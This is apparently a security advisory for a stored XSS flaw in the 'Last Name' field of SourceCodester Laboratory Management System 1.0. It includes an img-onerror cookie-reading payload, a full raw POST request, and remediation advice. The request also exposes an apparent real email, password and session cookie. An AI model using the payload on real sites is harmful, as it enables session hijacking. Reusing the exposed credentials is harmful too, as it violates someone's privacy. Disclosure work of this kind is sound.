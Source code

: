 Stored Cross-Site Scripting Vulnerability in SourceCodester Laboratory Management System 1.0 
:

    Vendor: Sourcecodester
    Product: Laboratory Management System 1.0
    Product URL: Laboratory Management System 1.0

Executive Summary

Stored Cross-Site Scripting (SXSS) vulnerability in Laboratory Management System 1.0 and earlier allows attacker to inject the Malicious JavaScript Code in the "Last Name" input field. The malicious code can then be executed whenever the vulnerable web page is accessed by any user, staff or even admin and will remain persistent. It will eventually result in account takeover as the session cookies can be accessed by the malicious JavaScript Code.
Issue Details

    Vulnerability Name: Stored XSS in Last Name
    Severity: High
    Affected URL: /php-lms/classes/Users.php?f=save
    Affected Parameter: Last Name
    HTTP Method: POST

Issue Description

The web application is vulnerable to Cross-Site Scripting (SXSS) attacks in the "Last Name" input field. An attacker can exploit this vulnerability by inputting the malicious JavaScript code in the HTTP POST request to create the user. In the provided example, the attacker modifies the "Last Name" parameter to insert a malicious JavaScript Code that can also access the authentication cookies.
Proof Of Concept

Configure a web proxy in your browser.

Navigate to the URL in the browser http://localhost/php-lms/classes/Users.php?f=save

Fill in the desired data in the input fields. Intercept the request in the web proxy. Modify the Last Name parameter as shown below and send the request to the server.
```bash
 -----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="lastname"

"><img src=x onerror=alert(document.cookie)>
```

 In the browser just create an account and navigate to homepage

https://drive.google.com/file/d/1L06qR4OZYnUAwMvf-QvLq1KS8tNi9Xmf/view?usp=drive_link
Payload:
```bash
Content-Disposition: form-data; name="lastname"

"><img src=x onerror=alert(document.cookie)>

```
Request:
```bash
POST /php-lms/classes/Users.php?f=save HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------28315272284843807941132131392
Content-Length: 1176
Origin: http://localhost
Connection: close
Referer: http://localhost/php-lms/admin/?page=user/manage_user
Cookie: PHPSESSID=ne013b16edsf0e0up00dsppfhb
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------28315272284843807941132131392
Content-Disposition: form-data; name="id"


-----------------------------28315272284843807941132131392
Content-Disposition: form-data; name="firstname"

"><img src=x onerror=alert(document.cookie)>
-----------------------------28315272284843807941132131392
Content-Disposition: form-data; name="middlename"

"><img src=x onerror=alert(document.cookie)>
-----------------------------28315272284843807941132131392
Content-Disposition: form-data; name="lastname"

"><img src=x onerror=alert(document.cookie)>
-----------------------------28315272284843807941132131392
Content-Disposition: form-data; name="username"

mohit.ahir7086@gmail.com
-----------------------------28315272284843807941132131392
Content-Disposition: form-data; name="password"

Ramasra1247@
-----------------------------28315272284843807941132131392
Content-Disposition: form-data; name="type"

1
-----------------------------28315272284843807941132131392
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------28315272284843807941132131392--

```
Impact:

Stored XSS attacks can have serious consequences, such as Account takeover by stealing cookies, stealing sensitive data, modifying the content of the web page, or redirecting users to a malicious sites.
Remediation:

Implement proper input validation and output encoding to prevent malicious code from being injected into the web application. Use server-side validation to ensure that user input is properly sanitized before being stored in a database or displayed on a web page. Use output encoding to ensure that any user input that is displayed on the web page is properly encoded to prevent malicious code from being executed.
References:

https://portswigger.net/web-security/cross-site-scripting/stored

https://owasp.org/www-community/attacks/xss/

Weakness Enumeration:

CWE-79

This report highlights the Stored XSS vulnerability present in the First Name parameter of  /php-lms/classes/Users.php?f=save, including the Proof of Concept, its impact, remediation steps and references for further guidance on mitigation strategies.
